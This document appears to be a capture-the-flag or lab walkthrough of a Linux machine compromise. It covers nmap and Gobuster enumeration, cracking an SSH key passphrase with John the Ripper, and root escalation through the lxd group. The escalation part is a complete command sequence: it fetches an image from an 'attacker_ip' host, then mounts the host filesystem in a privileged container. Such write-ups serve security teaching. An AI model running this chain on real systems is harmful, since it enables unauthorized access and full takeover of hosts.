





# 🛠️ Machine Walkthrough – Nmap, Enumeration, Initial Access & Privilege Escalation

---

## 📑 Table of Contents

- [Nmap Scan](#-nmap-scan)
- [Reconnaissance & Enumeration](#-reconnaissance--enumeration)
  - [Gobuster Directory Enumeration](#gobuster-directory-enumeration)
  - [Source Code Review](#source-code-review)
  - [Secret Directory Discovery](#secret-directory-discovery)
- [Initial Access](#-initial-access)
  - [Cracking the SSH Key Passphrase](#cracking-the-ssh-key-passphrase)
  - [SSH Access Gained](#ssh-access-gained)
- [Privilege Escalation](#-privilege-escalation)
  - [LXD Group Discovery](#lxd-group-discovery)
  - [Exploiting LXD via Alpine Builder](#exploiting-lxd-via-alpine-builder)
- [Root Access](#-root-access)
- [Summary](#-summary)
- [Tools Used](#-tools-used)
- [Disclaimer](#-disclaimer)

---

## 🔍 Nmap Scan

I started with a full TCP port scan to identify open services:

```bash
nmap -p- -T4 target_ip
```

✅ Findings:

    Port 22 – SSH

    Port 80 – HTTP

📸 Screenshot:


🕵️ Reconnaissance & Enumeration
Gobuster Directory Enumeration

I used Gobuster to identify hidden directories:

```bash
gobuster dir -u http://target_ip -w /usr/share/wordlists/dirb/common.txt
```

✅ Result: A hidden /secret directory was discovered.

📸 Screenshot:

Source Code Review

While inspecting the website source code, I found a possible username embedded in the page:

```bash
view-source:http://target_ip
```

✅ Username discovered: john

📸 Screenshot:

Secret Directory Discovery

Browsing to:

```bash
http://target_ip/secret
```

I discovered a private SSH key, but it was encrypted with a passphrase:
📸 Screenshot:



🚪 Initial Access
Cracking the SSH Key Passphrase

I converted the SSH key into a crackable format:
```bash
ssh2john id_rsa > hash.txt
```

Then cracked it with John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

✅ Passphrase successfully cracked

📸 Screenshot:

SSH Access Gained

I logged in using the decrypted private key:

```bash
ssh -i id_rsa john@target_ip
```

Inside the system, I obtained the user flag:

```bash
cat ~/user.txt
```

✅ User access obtained

⬆️ Privilege Escalation
LXD Group Discovery

I checked my group memberships:

```bash
id
```

✅ Output showed:
📸 Screenshot:


This is a known privilege escalation vector.

Exploiting LXD via Alpine Builder

I cloned the Alpine image builder on my local machine:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```
I then hosted the image using Python:

```bash
python3 -m http.server
```

On the victim machine, I downloaded it:

```bash
wget http://attacker_ip/alpine-v3.18-x86_64.tar.gz
```

Imported the image into LXD and starting exploiting:

```bash
lxc image import alpine-*.tar.gz --alias alpine

lxc init alpine privesc -c security.privileged=true

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

lxc start privesc
lxc exec privesc /bin/sh

cd /mnt/root

cat /mnt/root/root/root.txt
```

✅ ROOT ACCESS SUCCESSFULLY ACHIEVED

📸 Screenshot:
https://PASTE_IMAGE_LINK_HERE/lxd_exploit.png

✅ Summary
Phase	Result
Nmap Scan	Found SSH & HTTP
Enumeration	Username & secret directory
Initial Access	Cracked SSH private key
Privilege Escalation	LXD Alpine exploit
Final Result	Root Access
📌 Tools Used

    Nmap

    Gobuster

    John The Ripper

    ssh2john

    LXD

    Alpine Linux Builder

    Python HTTP Server

⚠️ Disclaimer

This walkthrough is for educational purposes only and was performed in a controlled lab environment.

